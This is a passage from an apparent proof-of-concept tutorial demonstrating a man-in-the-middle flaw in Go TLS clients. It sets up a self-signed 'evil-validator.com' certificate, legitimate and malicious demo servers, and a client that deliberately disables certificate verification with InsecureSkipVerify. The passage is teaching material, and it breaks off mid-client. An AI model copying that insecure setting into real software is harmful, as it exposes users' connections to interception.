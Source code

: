     - **For the Malicious Server:**Bash
        
        `openssl req -x509 -newkey rsa:2048 -keyout evil_server.key -out evil_server.crt -days 365 -nodes -subj "/CN=evil-validator.com"`
        
2. **Create Server Code:**
    - **`legit_validator.go`:**Go
        
        ```go
        package main
        import (
        	"fmt"
        	"log"
        	"net/http"
        )
        func main() {
        	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        		fmt.Fprintf(w, "Hello from legitimate validator! You are connected to the real node.")
        	})
        	log.Println("Legitimate validator listening on :8443 with server.crt")
        	// This server uses a valid certificate for 'legit-validator.com'
        	log.Fatal(http.ListenAndServeTLS(":8443", "server.crt", "server.key", nil))
        }
        ```
        
    - **`malicious_validator.go`:**Go
        
        ```go
        package main
        import (
        	"fmt"
        	"log"
        	"net/http"
        )
        func main() {
        	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        		fmt.Fprintf(w, "Hello from MALICIOUS validator! Your connection has been intercepted.")
        	})
        	log.Println("Malicious validator listening on :8443 with evil_server.crt")
        	// This server uses a certificate for 'evil-validator.com', which does not match 'legit-validator.com'
        	log.Fatal(http.ListenAndServeTLS(":8443", "evil_server.crt", "evil_server.key", nil))
        }
        ```
        
3. **Create Vulnerable Client Code:**
    - **`vulnerable_client.go`:**Go
        
        ```go
        package main
        import (
        	"crypto/tls"
        	"fmt"
        	"io/ioutil"
        	"log"
        	"net/http"
        )
        func main() {
        	// --- VULNERABLE CONFIGURATION ---
        	// This Transport configuration explicitly sets InsecureSkipVerify to true,
        	// bypassing all server certificate validation. This is the core of the vulnerability.
        	tr := &http.Transport{
        		TLSClientConfig: &tls.Config{
        			InsecureSkipVerify: true, // This is the vulnerability [2, 3, 4, 5, 6, 7]
        		},
        	}
        	client := &http.Client{Transport: tr}